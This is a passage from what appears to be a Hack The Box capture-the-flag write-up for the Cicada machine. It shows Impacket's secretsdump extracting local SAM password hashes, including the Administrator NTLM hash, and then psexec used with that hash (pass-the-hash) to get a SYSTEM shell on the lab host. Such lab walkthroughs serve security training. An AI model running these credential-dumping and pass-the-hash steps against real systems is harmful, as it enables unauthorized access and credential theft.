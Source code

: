 Therefore, using secretsdump.py from Impacket, we dump the NTLM hashes and get the local Administrator's NTLM hash:

```
$ impacket-secretsdump -sam sam -system system LOCAL
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up... 
```

By using psexec.py from Impacket we get an interactive shell as "NT AUTHORITY\SYSTEM":

```
$ impacket-psexec -hashes :2b87e7c93a3e8a0ea4a581937016f341 Administrator@10.10.11.35
```

![alt text](assets/administrator_psexec.png)

><u>Note:</u> Domain hashes are not stored in the registry, but in <b>ndts.dit</b> file. Review [0xdf cicada writeup's beyond root section](https://0xdf.gitlab.io/2025/02/15/htb-cicada.html#beyond-root---domain-hashes) for more details about it. By the way he provides a good technique for extracting NTLM hashes for all domain users. 
